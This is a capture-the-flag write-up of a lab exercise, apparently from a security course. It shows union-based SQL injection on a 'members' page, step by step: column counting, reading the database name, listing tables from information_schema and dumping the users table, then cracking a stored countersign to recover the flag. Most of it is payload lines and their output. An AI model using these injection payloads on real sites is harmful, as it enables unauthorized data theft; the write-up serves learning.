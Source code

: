 # SQLI 1


## Attack scenario

On members I tried basic sqli 

> 1 or 1=1

I got all the members so basically there is sqli in members page second thing to do

> 1 union select 1

got an error:

> The used SELECT statements have a different number of columns

so I need to add more columns till i got the exact number o columns 

> 1 union select 1,2

the message error is gone, now we need to change 1 with 0 so we display only data we want.

> 0 union select 1,2

Lets deisplay the database namme to do that we can change 1 or 2 with database function

>  0 union select 1,database()
>  
>  ID: 0 UNION select 1,database() 
>  
> First name: 1
> 
> Surname : Member_Sql_Injection

Now we need to find tables and their columns to do so lets try

> 0 UNION select 1,concat(table_name, 111,column_name) from information_schema.columns 

It worked so basically we concat table and column name I added 111 to separate them because we cant put a char or a string
we got alot of rows, lets search for users, we found users table lets display every column on users table

> 0 UNION select 1,concat(first_name,last_name,user_id,town,country,countersign,Commentaire) from users

flag user got a sus commentaire lets decrypt the countersign

> Decrypt this password -> then lower all the char. Sh256 on it and it's good !
> 
> 5ff9d0165b4f92b14994e5c685cdce28 (the countersign)


we got FortyTwo => tolower() => fortytwo => sha256 => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
